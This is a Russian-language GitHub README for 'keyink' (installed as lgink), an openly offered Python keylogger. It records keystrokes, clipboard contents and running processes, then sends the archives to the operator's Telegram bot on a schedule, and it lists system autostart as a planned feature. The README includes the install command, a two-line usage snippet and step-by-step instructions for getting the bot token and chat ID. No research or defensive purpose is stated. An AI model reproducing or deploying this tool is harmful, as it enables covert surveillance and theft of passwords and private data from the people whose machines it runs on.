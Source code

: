 [![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)

# keyink

Кейлогер всего лишь в 2 строки. Отправка в Telegram.

## Описание
`keyink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)
  * [Получение айди](#Получение-айди)

### Текущие возможности
1. Логирование клавиатуры, буфера обмена, запущенных процессов.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других логеров.
2. Добавление в автозагрузку системы.
 
## Установка

Установить последнюю версию можно командой:
```
pip install lgink==0.0.1
```

## Пример использования
### Стандартный
```python

from lgink.multilogger import Logger

Logger(token="YOUR_TOKEN", user_id=YOUR_ID, iteration_pause=60).run()
```
Стандартный ```Logger``` запускает все доступные логгеры и отправляет собранные данные архивом вам в Telegram каждый час.

Передаваемые параметры:
* `token` - токен Telegram бота.
* `user_id` - ваш айди Telegram.
* `keyboard` - добавить логер клавиатуры (True/False).
* `clipboard` - добавить логер буфера обмена (True/False).
* `processes` - добавить логер процессов (True/False).
* `special_keys` - добавлять в логи спец клавиши Enter, Shift, Alt  и тд (True/False).
* `pause_iteration` - частота проверки запущенных процессов в секундах.
* `sleep` - частота отправки собранных логов в секундах.

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду ```/newbot```.

<p align="left">
  <a href="">
    <img src="_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Прописываем название бота, затем ник с прикладкой ```_bot``` в конце.

<p align="left">
  <a href="">
    <img src="_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Полученный токен вставляем в поле ```"YOUR_TOKEN"``` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду ```/start```.

<p align="left">
  <a href="">
    <img src="_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Полученный айди вставляем в поле ```YOUR_ID``` в скрипте.
